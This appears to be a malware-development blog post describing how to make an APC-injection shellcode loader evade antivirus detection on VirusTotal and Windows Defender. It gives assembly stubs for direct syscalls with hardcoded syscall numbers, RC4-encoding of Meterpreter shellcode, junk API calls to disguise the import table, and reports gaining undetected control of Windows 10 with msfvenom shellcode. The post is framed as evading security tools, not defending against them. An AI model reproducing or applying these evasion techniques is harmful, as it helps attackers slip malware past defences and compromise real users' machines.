










## Bypass AV

This section uses the [APC Injection](https://github.com/vuongle-vigo/MalwareDevTechnique-Blog/tree/main/11-3-2024%20APC%20Injection) template mentioned previously.

The applied techniques attempt to minimize AV detection on [VirusTotal](https://www.virustotal.com/gui/home/upload).

### Evaluating the original code

The original uses [Malware Compiling Technique](https://github.com/vuongle-vigo/MalwareDevTechnique-Blog/tree/main/18-3-2024%20Malware%20Compiling), observing the IAT table we get the following result:


VirusTotal result:



The original code hides the CRT and unused APIs in the IAT table, however, the APIs used in APC Injection are still exposed, and the shellcode is not encrypted => Detected by signature.

### Syscalls ASM Code

Technique used: [Syscalls](https://github.com/vuongle-vigo/MalwareDevTechnique-Blog/tree/main/18-3-2024%20Syscalls)

Using `WinDbg` to find the SSN of Syscall, we construct the `syscall.asm` file as follows:

```asm
.code
	SysNtAllocateVirtualMemory proc
		mov r10, rcx
		mov eax, 18h
		syscall
		ret
	SysNtAllocateVirtualMemory endp

	SysNtWriteVirtualMemory proc
		mov r10, rcx
		mov eax, 3Ah
		syscall
		ret
	SysNtWriteVirtualMemory endp

	SysNtProtectVirtualMemory proc
		mov r10, rcx
		mov eax, 50h
		syscall
		ret
	SysNtProtectVirtualMemory endp

	SysNtQueueApcThread proc
		mov r10, rcx
		mov eax, 45h
		syscall
		ret
	SysNtQueueApcThread endp

	SysNtResumeThread proc
		mov r10, rcx
		mov eax, 52h
		syscall
		ret
	SysNtResumeThread endp
end
```

With this technique, the VirusTotal result:



Some AV detections are based on Meterpreter signature. Using [RC4 Payload Encode](https://github.com/vuongle-vigo/MalwareDevTechnique-Blog/tree/main/30-12-2023%20Payload%20Encryption), the result obtained:



### Syscalls Custom SSN Code

Replace the syscall technique with assembly code specified above by using the technique of finding SSN code in the NTDLL library, then calling the syscall function. The results are significantly improved.

IAT table:





### Import junk API 

Checking the IAT table, the fact that the executable uses a small amount of API also makes it suspicious. Proceed to add junk APIs:

```c
unsigned __int64 i = MessageBoxA(NULL, NULL, NULL, NULL);
i = GetLastError();
i = SetCriticalSectionSpinCount(NULL, NULL);
i = GetWindowContextHelpId(NULL);
i = GetWindowLongPtrW(NULL, NULL);
i = RegisterClassW(NULL);
i = IsWindowVisible(NULL);
i = ConvertDefaultLocale(NULL);
i = MultiByteToWideChar(NULL, NULL, NULL, NULL, NULL, NULL);
i = IsDialogMessageW(NULL, NULL);
```

Result:


### Remove CreateProcess API



### Test Windows Defender Runtime

Using shellcode from Kali's msfvenom:



Obtained control of Windows 10 without being detected:


